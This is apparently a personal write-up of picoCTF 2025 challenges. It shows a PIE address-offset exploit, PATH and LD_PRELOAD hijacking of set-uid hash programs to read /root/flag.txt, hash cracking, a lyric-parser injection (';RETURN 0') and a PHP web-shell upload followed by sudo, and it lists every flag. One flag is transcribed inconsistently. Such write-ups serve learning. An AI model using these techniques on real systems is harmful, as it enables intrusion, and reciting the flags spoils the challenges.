

## Binary Exploitation

### PIE-TIME
> Complete date: 2025-03-13

```
Can you try to get the flag? Beware we have PIE!
> Hint: Can you figure out what changed between the address you found locally and in the server output?
```

The *vuln* program tells me the address of `main()` and I need to input the address of `win()` to get the flag. 

> First Attempt

I try to print the address of `win()` and the address of `main()`, then calculate the offset between `main()` and `win()` which is `0x9E`. However, it's not the same in the remote server. I check the information about the binary file it provides.

```bash=
$ checksec --file=vuln  
[*] '/home/kali/Desktop/picoCTF-2025/binary-exploitation/PIE-TIME/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

As the problem said, "beware of PIE".

Position Independent Executable (PIE) will randomize the address of the program so that there is no fixed address when executing the program everytime. However, it's okay if I get the relative difference address of the two functions. Now the problem may be "What is the difference offset between the two functions". Thus, I try to use `nm` command to see the symbol in the binary file.

```bash=
$ nm vuln | grep ' main\| win'
000000000000133d T main
00000000000012a7 T win
```

Cool! The offset between both functions is actually `0x96` instead of `0x9E`. I also write a pwntool script to automatically calculate the absolute address of `win()` based on the given `main()` address and the known offset `0x96`.

```bash=
$ python3 exp.py rescued-float.picoctf.net 63978 0x96
[+] Opening connection to rescued-float.picoctf.net on port 63978: Done
b'Address of main: 0x5a941a53833d'
[*] Switching to interactive mode
Enter the address to jump to, ex => 0x12345: Your input: 5a941a5382a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_378c1259}

[*] Got EOF while reading in interactive
$
```

Flag: `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_378c1259}`

### Hash-only-1
> Complete date: 2025-03-12

```
Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash.
If only it could just give you the actual content!
```

The problem provides a program *flaghasher* that print the MD5 sum of the flag stored in a root access file */root/flag.txt*. The *flaghasher* is a root-owned set-uid program so that it is able to read the content in */root/flag.txt*.

To solve this problem, I need to know "How does the program read the file" and tamper with such action.

I use `strings` to find some clues and see 2 impoprtant hints.

```bash=
# excerpt of output
$ strings flaghasher
system
/bin/bash -c 'md5sum /root/flag.txt'
```

The *flaghasher* calculate the MD5 sum of the flag via `system()` to run a shell command `md5sum`. Thus I get 2 approaches to exploit this problem

> First attempt: tamper with `system()`

In the first approach, I try to tamper with the `system()` function asking it not to run `md5sum` but `cat`. In this way, I can get the plaintext flag. A little challenge is the remote server doesn't provide any text editor so I write the code I need line by line using `echo`. Below is how I acheive it.

```bash=
# Prepare an implementation of tampered system function in system.c
ctf-player@pico-chall$ echo "#include <unistd.h>" > system.c
ctf-player@pico-chall$ echo "int system(const char *command) {" >> system.c
ctf-player@pico-chall$ echo 'char* args[] = {"/bin/bash", "-c", "cat", "/root/flag.txt", NULL};' >> system.c
ctf-player@pico-chall$ echo "execvp(args[0], args);" >> system.c
ctf-player@pico-chall$ echo "return 0;}" >> system.c

# Make function system to a shared library
ctf-player@pico-chall$ gcc -c system.c -o system.o
ctf-player@pico-chall$ gcc system.o -shared -o libsystem.so

# Using LD_PRELOAD to load such function before hand and run flaghasher
ctf-player@pico-chall$ LD_PRELOAD=./libsystem.so ./flaghasher
Computing the MD5 hash of /root/flag.txt.... 

37b576b3ec8179c5714bcd173ce8c1cc  /root/flag.txt
```

Unfortunately, this approach doesn't work since a set-uid program cannot run with `LD_PRELOAD` for security concern. Hence, I took the other method.

> Second attempt: tamper with `md5sum`

In the second approach, I tamper with `md5sum`. I copy the command `cat` to the current directory and rename it after `md5sum`. Then, I change the environment variable `PATH` to read the current directory first so that it will get the tampered `md5sum` instead of the correct one.

```bash=
ctf-player@pico-chall$ which cat
/usr/bin/cat
ctf-player@pico-chall$ cp /usr/bin/cat .
ctf-player@pico-chall$ mv cat md5sum
ctf-player@pico-chall$ export PATH=.:$PATH
ctf-player@pico-chall$ ./flaghasher 
Computing the MD5 hash of /root/flag.txt.... 

picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_9722baa4}
```

And this approach works!

Flag: `picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_9722baa4}`

### Hash-only-2
> Complete date: 2025-03-12

```
Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash.
If only it could just give you the actual content!
```

This challenge is similar to Hash-only-1. This time, I have a command `flaghasher` instead of an executable program. The command is identical to the program in hash-only-1. It uses a system call to run a shell command `md5sum` to calculate the MD5 sum of the flag.

I attempt the same approach as hash-only-1 by tampering with the `md5sum` and modify the environment variable `env`.

```bash=
ctf-player@pico-chall$ which cat
/usr/bin/cat
ctf-player@pico-chall$ cp /usr/bin/cat .
ctf-player@pico-chall$ mv cat md5sum
ctf-player@pico-chall$ export PATH=.:$PATH
-rbash: PATH: readonly variable
```

Surprisingly! The environment vriable is read-only. Well... I check is there anything interesting about `PATH` variable and the location of `md5sum`.

```bash=
ctf-player@pico-chall$ env | grep PATH
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
ctf-player@pico-chall$ which md5sum
/usr/bin/md5sum
```

The `md5sum` is located in */usr/bin*. How about overwrite such file?

```bash=
ctf-player@pico-chall$ mv md5sum /usr/bin
mv: replace '/usr/bin/md5sum', overriding mode 0755 (rwxr-xr-x)? y
mv: cannot move 'md5sum' to '/usr/bin/md5sum': Permission denied
```

It doesn't work. Take a deep look in the environment variable `PATH`. There are still 3 possible chances for me to put a tampered `md5sum` command before it. Thus, I try */usr/local/sbin*, */usr/local/bin*, */usr/sbin*

```bash=
ctf-player@pico-chall$ mv md5sum /usr/local/sbin
mv: cannot move 'md5sum' to '/usr/local/sbin/md5sum': Permission denied
ctf-player@pico-chall$ mv md5sum /usr/local/bin
```

I am able to put the tampered `md5sum` into `/usr/local/bin`. Good! Let's run the command `flaghasher`

```bash=
ctf-player@pico-chall$ flaghasher
Computing the MD5 hash of /root/flag.txt.... 

picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_1a74f5fd}
```

Flag: `picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_1a74f5fd}`

## Cryptography

### hashcrack
> Complete date: 2025-03-08

```
A company stored a secret message on a server which got breached due to the admin using weakly hashed passwords. Can you gain access to the secret stored within the server?
> Hint 1: Understanding hashes is very crucial. [Read more here](https://primer.picoctf.org/#_hashing).
> Hint 2: Can you identify the hash algorithm? Look carefully at the length and structure of each hash identified.
> Hint 3: Tried using any hash cracking tools?
```

The problem provides 3 hashes and ask me to figure out what are the passwords. I crack the hash via [crack station](https://crackstation.net/). Here is the hashes, hash method, and cracked result I get.

| Hash | Method | Password |
| :-- | :-- | :-- |
| `482c811da5d5b4bc6d497ffa98491e38` | MD5 | password123 |
| `b7a875fc1ea228b9061041b7cec4bd3c52ab3ce3` | SHA1 | letmein |
| `916e8c4f79b25028c9e467f1eb8eee6d6bbdff965f9928310ad30a8d88697745` | SHA256 | qwerty098 |

Below is the process I play the game.

```bash=
Welcome!! Looking For the Secret?

We have identified a hash: 482c811da5d5b4bc6d497ffa98491e38
Enter the password for identified hash: password123
Correct! You've cracked the MD5 hash with no secret found!

Flag is yet to be revealed!! Crack this hash: b7a875fc1ea228b9061041b7cec4bd3c52ab3ce3
Enter the password for the identified hash: letmein
Correct! You've cracked the SHA-1 hash with no secret found!

Almost there!! Crack this hash: 916e8c4f79b25028c9e467f1eb8eee6d6bbdff965f9928310ad30a8d88697745
Enter the password for the identified hash: qwerty098
Correct! You've cracked the SHA-256 hash with a secret found. 
The flag is: picoCTF{UseStr0nG_h@shEs_&PaSswDs!_3eb19d03}
```

Flag: `picoCTF{UseStr0nG_h@shEs_&PaSswDs!_3eb19d03}`

### Guess My Cheese (Part 1)

```
Try to decrypt the secret cheese password to prove you're not the imposter!
> Hint: Remember that cipher we devised together Squeexy? The one that incorporates your affinity for linear equations???
```

It's about affine cipher as the problem mentioned. The affine cipher is a type of monoalphabetic substitution cipher that uses a mathematical function to encrypt each letter in the plaintext. It applies the formula **E(x) = (a * x + b) mod m**, where **a** and **b** are keys, **x** is the numerical value of a letter, and **m** is the alphabet size. For the cipher to be reversible, **a** must be coprime with **m** to ensure the existence of a modular inverse for decryption.

To decrypt an affine cipher, use the formula **D(y) = a⁻¹ * (y - b) mod m**, where **y** is the encrypted letter's value, **a⁻¹** is the modular inverse of **a** modulo **m**, and **b** is the additive key. Two instances of plaintext-ciphertext pairs are needed to solve for **a** and **b** because they give two equations, which can be solved simultaneously to determine the encryption function. This is crucial when the keys are unknown and the cipher needs to be broken.

Fortunately, the challenge provides two chances to guess, allowing to obtain two pairs of plaintext and ciphertext. These pairs can be used to solve for **a** and **b**, which can then be used to decrypt the ciphertext and obtain the flag.  

The coolest part of the challenge is that I can't just guess randomly—after many attempts, it turned out the oracle requires the guess to be a specific string. Random guesses are not allowed. After discussing with GPT, a helpful hint came up: could it be that only special cheese names are accepted? That ended up being the key to solve the challenge.  

Conclusion: GPT also read the problem setter's mind?

```bash=
$ python3 exp.py
Cipher of "BLUE": UIFT
Affine cipher parameters: a = {parameter[0], b = {parameter[1]
Affine cipher parameters: a = {parameter[0], b = {parameter[1]

====================

Flag cipher: UGJTGUA
Trying...
Flag: BRIERBJ
```

```bash=
$ nc verbal-sleep.picoctf.net 64700

*******************************************
***             Part 1                  ***
***    The Mystery of the CLONED RAT    ***
*******************************************

The super evil Dr. Lacktoes Inn Tolerant told me he kidnapped my best friend, Squeexy, and replaced him with an evil clone! You look JUST LIKE SQUEEXY, but I'm not sure if you're him or THE CLONE. I've devised a plan to find out if YOU'RE the REAL SQUEEXY! If you're Squeexy, I'll give you the key to the cloning room so you can maul the imposter...

Here's my secret cheese -- if you're Squeexy, you'll be able to guess it:  UGJTGUA
Hint: The cheeses are top secret and limited edition, so they might look different from cheeses you're used to!
Commands: (g)uess my cheese or (e)ncrypt a cheese
What would you like to do?
e

What cheese would you like to encrypt? BLUE
Here's your encrypted cheese:  UIFT
Not sure why you want it though...*squeak* - oh well!

I don't wanna talk to you too much if you're some suspicious character and not my BFF Squeexy!
You have 2 more chances to prove yourself to me!

Commands: (g)uess my cheese or (e)ncrypt a cheese
What would you like to do?
g      


   _   _
  (q\_/p)
   /. .\.-.....-.     ___,
  =\_t_/=     /  `\  (
    )\ ))__ __\   |___)
   (/-(/`  `nn---'

SQUEAK SQUEAK SQUEAK

         _   _
        (q\_/p)
         /. .\        
  ,__   =\_t_/=   
     )   /   \      
    (   ((   ))   
     \  /\) (/\    
      `-\  Y  /    
         nn^nn        
                          

Is that you, Squeexy? Are you ready to GUESS...MY...CHEEEEEEESE?
Remember, this is my encrypted cheese:  UGJTGUA
So...what's my cheese?
BRIERBJ

         _   _
        (q\_/p)
         /. .\         __
  ,__   =\_t_/=      .'o O'-.
     )   /   \      / O o_.-`|   
    (   ((   ))    /O_.-'  O |  
     \  /\) (/\    | o   o  o|   
      `-\  Y  /    |o   o O.-`  
         nn^nn     | O _.-'      
                   '--`         

munch...

         _   _
        (q\_/p)
         /. .\         __
  ,__   =\_t_/=      .'o O'-.
     )   /   \      / O o_.-`|   
    (   ((   ))      ).-'  O |  
     \  /\) (/\      )   o  o|   
      `-\  Y  /    |o   o O.-`  
         nn^nn     | O _.-'      
                   '--`         

munch...

         _   _
        (q\_/p)
         /. .\         __
  ,__   =\_t_/=      .'o O'-.
     )   /   \      / O o_.-`|   
    (   ((   ))        )'  O |  
     \  /\) (/\          )  o|   
      `-\  Y  /         ) O.-`  
         nn^nn        ) _.-'      
                   '--`         

MUNCH.............

YUM! MMMMmmmmMMMMmmmMMM!!! Yes...yesssss! That's my cheese!
Here's the password to the cloning room:  picoCTF{ChEeSy6320b114}
```

Flag: `picoCTF{ChEeSy6320b114}`

## Forensics

### Ph4nt0m-1ntrud3r

The problem provides a pcap file with hints emphasizing time manner.

The first thing I notice about after I open the pcap file is the data for each packet. There are totally 22 TCP packets with base64 encode string as payload. It's appealing to decode those strings. I `strings` the pcap file trying to get all payload. Below is the result.

```bash=
$ strings myNetworkTraffic.pcap 
ezF0X3c0cw==
fQ==
NGI1NzkwOQ==
XzM0c3lfdA==
633ZLfY=
k7ZdzLM=
8lU7Yzo=
WaHbHK8=
V+r2bwA=
bnRfdGg0dA==
e7QUIkk=
/caYdow=
PRH9csM=
gVrnJrc=
3QyO4x0=
HfKh/bI=
S14fH84=
YmhfNHJfZA==
Ctl0bRE=
6WCcDiY=
rRo02rs=
cGljb0NURg==
```

And I use a python script to decode them. Surprisingly, some of them cannot be decoded via base64. Thus, I refer to hint. Hint keeps emphasizing me the time manner. So I check the packets again. There are some packets sending in negative time. So I decided to ignore those packets and use the remaining encoded strings in timely order as possible flag to decode. Below are the payload I use.

```text=
"ezF0X3c0cw==",
"bnRfdGg0dA==",
"XzM0c31fdA==",
"YmhfNHJfZA==",
"NGI1NzkwOQ==",
"fQ=="
```

Then, I run the python script *exp.py* to decode them and form the flag. Here is the result.

| Encoded string | Base64 decode |
| :-- | :-- |
| `ezF0X3c0cw==` | `{1t_w4s` |
| `bnRfdGg0dA==` | `nt_th4t` |
| `XzM0c31fdA==` | `_34s}_t` |
| `YmhfNHJfZA==` | `bh_4r_d` |
| `NGI1NzkwOQ==` | `4b57909` |
| `fQ==` | `}` |

The organized flag looks like `{1t_w4snt_th4t_34s}_tbh_4r_d4b57909}`. Yes, it's weired seeing a `}` in the flag. So I dedcided to replace it with `y` making the flag similar to "It wasn't that easy ...". Finally, append the prefix "picoCTF" to the flag and submit.

By the way, the prefix "picoCTF" is actually included in the payload of the packet that is excatly the previous one of the packet with positive time.

Flag: `picopCTF{t_w4snt_th4t_34sy_tbh_4r_d4b57909}`

### RED
> Complete date: 2025-03-11

```
RED, RED, RED, RED
Download the image: [red.png](https://challenge-files.picoctf.net/c_verbal_sleep/831307718b34193b288dde31e557484876fb84978b5818e2627e453a54aa9ba6/red.png)
> Hint1: The picture seems pure, but is it though?
> Hint2: Red?Ged?Bed?Aed?
> Hint3: Check whatever Facebook is called now.
```

The hints strongly ask me to check the meta data first. I use `exiftool` to see what may hide inside the metadata.

```bash=
ExifTool Version Number         : 13.00
File Name                       : red.png
Directory                       : .
File Size                       : 796 bytes
File Modification Date/Time     : 2025:03:08 03:09:47-05:00
File Access Date/Time           : 2025:03:11 09:03:24-04:00
File Inode Change Date/Time     : 2025:03:08 03:10:12-05:00
File Permissions                : -rw-rw-r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 128
Image Height                    : 128
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Poem                            : Crimson heart, vibrant and bold,.Hearts flutter at your sight..Evenings glow softly red,.Cherries burst with sweet life..Kisses linger with your warmth..Love deep as merlot..Scarlet leaves falling softly,.Bold in every stroke.
Image Size                      : 128x128
Megapixels                      : 0.016
```

Wow! There is a poem inside metadata. Perhaps it's telling me it hides the flag in every pixel of the image. Then, I use `zsteg` to check if there are possible solution hides via LSB or MSB.

```bash=
$ zsteg red.png             
meta Poem           .. text: "Crimson heart, vibrant and bold,\nHearts flutter at your sight.\nEvenings glow softly red,\nCherries burst with sweet life.\nKisses linger with your warmth.\nLove deep as merlot.\nScarlet leaves falling softly,\nBold in every stroke."
b1,rgba,lsb,xy      .. text: "cGljb0NURntyM2RfMXNfdGgzX3VsdDFtNHQzX2N1cjNfZjByXzU0ZG4zNTVffQ==cGljb0NURntyM2RfMXNfdGgzX3VsdDFtNHQzX2N1cjNfZjByXzU0ZG4zNTVffQ==cGljb0NURntyM2RfMXNfdGgzX3VsdDFtNHQzX2N1cjNfZjByXzU0ZG4zNTVffQ==cGljb0NURntyM2RfMXNfdGgzX3VsdDFtNHQzX2N1cjNfZjByXzU0ZG4zNTVffQ=="
b1,rgba,msb,xy      .. file: OpenPGP Public Key
b2,g,lsb,xy         .. text: "ET@UETPETUUT@TUUTD@PDUDDDPE"
b2,rgb,lsb,xy       .. file: OpenPGP Secret Key
b2,bgr,msb,xy       .. file: OpenPGP Public Key
b2,rgba,lsb,xy      .. file: OpenPGP Secret Key
b2,rgba,msb,xy      .. text: "CIkiiiII"
b2,abgr,lsb,xy      .. file: OpenPGP Secret Key
b2,abgr,msb,xy      .. text: "iiiaakikk"
b3,rgba,msb,xy      .. text: "#wb#wp#7p"
b3,abgr,msb,xy      .. text: "7r'wb#7p"
b4,b,lsb,xy         .. file: 0421 Alliant compact executable not stripped
```

Definitely yes! I see a base64 encoding string in it! After decode it, I get the flag.

Flag: `picoCTF{r3d_1s_th3_ult1m4t3_cur3_f0r_54dn355_}`

### Flags are stepic

```
A group of underground hackers might be using this legit site to communicate.
Use your forensic techniques to uncover their message
> Hint: In the country that doesn't exist, the flag persists
```

The hint tells me the flag is hidden in inexisted country. I first figure out which country is not existed.

```bash=
# excerpt of output
$ curl http://standard-pizzas.picoctf.net:59038/
{ name: "Upanzi, Republic The",img: "flags/upz.png", style:"width: 120px!important; height: 90px!important;" },
```

The country `Upanzi, Republic The` is not a country but an an Africa-based collaboration of engineering research labs. I down;oad the image file to see if there is anything weird.

The problem name **flags are stepic** makes me think about whether `stepic` is a forensic tool. Surprisingly, it is. Then, I use `stepic` to decode the hidden data and get the flag!

```bash=
$ stepic -i upz.png -d
/usr/lib/python3/dist-packages/PIL/Image.py:3368: DecompressionBombWarning: Image size (150658990 pixels) exceeds limit of 89478485 pixels, could be decompression bomb DOS attack.
  warnings.warn(
picoCTF{fl4g_h45_fl4g51d83cb1}
```

Flag: `picoCTF{fl4g_h45_fl4g51d83cb1}`

## General Skills

### Fantasy CTF Simulator
> Complete date: 2025-03-08

It's simply a welcome problem. Get flag after reading the context.

Flag: `picoCTF{m1113n1um_3d1710n_9a3a7333}`

### Rust fixme1
> Complete date: 2025-03-09

The problem provide a rust file with some error to be fixed. I'll list down the steps I solve this problem, from installation to execution.

1. Installing Rust
    ```bash=
    $ sudo apt install rustc
    ```
2. Check if the installation complete
    ```bash=
    $ rustc -V
    ```
3. Build cargo project
    ```bash=
    $ cargo build
    ```
4. After build the project, I see many errors showed on the screen. In this step, I will list down the errors I fixed.
    * In line 5, add a semi-colon ';' at the end of statement.
    * In line 18, use `return` to return a function instead of `ret`.
    * In line 25, I use `"{}"` to print a variable.
5. Rebuild the project and execute.
    ```bash=
    $ cargo build
    $ cargo run
    ```

The original *main.rs* keeps the same. Readers may find the compilable rust file *main-correct.rs* under directory *general-skill/Rust-fixme1/fixme1/src*. Note that readers should modify the *main.rs* file then compile the project using cargo.

Flag: `picoCTF{4r3_y0u_4_ru$t4c30n_n0w?}`

### Rust fixme2
> Complete date: 2025-03-09

The problem provide a rust file with some error to be fixed again. I'll list down those part I fixed.

* In line 3, using type `&mut String` to change the value of `borrowed_string` so that it is mutable (changeanle) in `decrypt`.
* In line 34, using `let mut party_foul` instead of `let party_foul` so that `party_foul` is mutable.
* In line 35, pass `&mut party_foul` so that `party_foul` is mutable in function `decrypt`.

The original *main.rs* keeps the same. Readers may find the compilable rust file *main-correct.rs* under directory *general-skill/Rust-fixme2/fixme2/src*. Note that readers should modify the *main.rs* file then compile the project using cargo.

Flag: `picoCTF{4r3_y0u_h4v1n5_fun_y31?}`

### Rust fixme3
> Complete date: 2025-03-09

The problem provide a rust file with some error to be fixed again. I'll list down those part I fixed.

* Uncomment line 22 and 34 to open an unsafe area.

The original *main.rs* keeps the same. Readers may find the compilable rust file *main-correct.rs* under directory *general-skill/Rust-fixme3/fixme3/src*. Note that readers should modify the *main.rs* file then compile the project using cargo.

Flag: `picoCTF{n0w_y0uv3_f1x3d_1h3m_411}`

## Reverse Engineering

### Flag Hunters
> Complete date: 2025-03-11

```
Lyrics jump from verses to the refrain kind of like a subroutine call.
There's a hidden refrain this program doesn't print by default.
Can you get it to print it?
There might be something in it for you.
The program's source code can be downloaded [here](https://challenge-files.picoctf.net/c_verbal_sleep/1c1896b0e29fad87c1415f743b063161cad42d8f636ece348a6361e5be89309d/lyric-reader.py).
> Hint1: This program can easily get into undefined states. Don't be shy about Ctrl-C.
> Hint2: Unsanitized user input is always good, right?
> Hint3: Is there any syntax that is ripe for subversion?
```

The program keeps printing the flag until it reaches the `END` or has printed `MAX_LINES` lines. The flag is embedded at the frontmost paragraph, which is impossible to be printed by default. To achieve the first paragraph, I need to assign `lip` to a number less than 4 so that it is possible to print the flag.

One possible way to achive so is using the keyword `RETURN`. In line 122 in *lyric-reader.py*, `lip` will be assigned to the value after `RETURN`. Hence, my current target changes to insert `RETURN 0` to the song lyrics. Again, I take advantage on the user input when it asks me about the crowd. I type ";RETURN 0" as payload. The semi-colon `;` is used to split the lyric since it is splitted by `;`, as mentioned in line 111 in *lyric-reader.py*. This makes the program reads a malicious RETURN from me and start printing the lyrics from the beginning.

Flag: `picoCTF{70637h3r_f0r3v3r_509142d4}`

## Web Exploitation

### Cookie Monster Secret Recipe
> Complete date: 2025-03-08

Access the [link](http://verbal-sleep.picoctf.net:51173/) the problem provides. I see the following page.



It doesn't matter what the username and password is. Just check the cookie and see a `secret_recipe` with value `cGljb0NURntjMDBrMWVfbTBuc3Rlcl9sMHZlc19jMDBraWVzXzA1N0JDQjUxfQ%3D%3D`. It's obvious thar the value is encoded via URL encode, so I use [Cyberchef](https://gchq.github.io/CyberChef/) to decode it. After decoding, I get `cGljb0NURntjMDBrMWVfbTBuc3Rlcl9sMHZlc19jMDBraWVzXzA1N0JDQjUxfQ==`. Again, it's obvioud that the text is encoded via base64. The flag is shown after using base64 decoding.

Flag: `picoCTF{c00k1e_m0nster_l0ves_c00kies_057BCB51}`

### head-dump
> Complete date: 2025-03-11


```
Welcome to the challenge! In this challenge, you will explore a web application and find an endpoint that exposes a file containing a hidden flag. The application is a simple blog website where you can read articles about various topics, including an article about API Documentation. Your goal is to explore the application and find the endpoint that generates files holding the server’s memory, where a secret flag is hidden. The website is running picoCTF News.
> Hint1: Explore backend development with us
> Hint2: The head was dumped.
```

After reading the problem description, I guess the flag is hidden and could be accessed via API.

I use curl to view the source code of the web page in detail. And I see one line catches my eyes with a link.

```bash=
<a href="" class="text-blue-600">#swagger UI</a> , <a href="/api-docs" class="text-blue-600 hover:underline">#API Documentation</a>
```

It seems it's the entrance to get the API. I try to enter the API page (http://verbal-sleep.picoctf.net:55421/api-docs) and successfully get the swagger API interface. The last one at the bttom of the page is **heapdump**, which definitely the target our flag is. I execute such API and download the file *heapdump-1741676083338.heapsnapshot*. 

Finally, use `grep` to figure out the flag in it.

Flag: `picoCTF{Pat!3nt_15_Th3_K3y_46022a05}`

### n0s4n1ty 1
> Complete date: 2025-03-11

```
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the */root* directory.
> Hint1: File upload was not sanitized
> Hint2: Whenever you get a shell on a remote machine, check `sudo -l`
```

According to the problem description and hints, it's a simple and classic CTF problem with arbitraty file upload. The website doesn' sanitize the file users upload.

To solve this problem, I upload a php webshell *shell.php* that allows me run any shell commands ad print out the result on the web page. Then, look for the flag with the web shell.

Firsty, I use an [online reversse shell generator](https://www.revshells.com/) to generate a php web shell and upload it to the website. The shell is stored in */uploads/shell.php*.

Then, I enter the web shell I upload. As hint tells me, type `sudo -l` to see what commands am I able to use. Surprisingly, I can run all commands with `sudo`. Below is the output adter I typing `sudo -l`.

```bash=
Matching Defaults entries for www-data on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL
```

That's great! I run `sudo ls /root` to see what files are in the */root* directory. There is a file named after *flag.txt*. Surely, it is the flag I want. Hence, I use `sudo cat /root/flag.txt` as the final step to get the flag. Note that the `sudo` command is required to run `ls /root` and `cat /root/flag` commands.

Flag: `picoCTF{wh47_c4n_u_d0_wPHP_b42a374d}`

# After competition...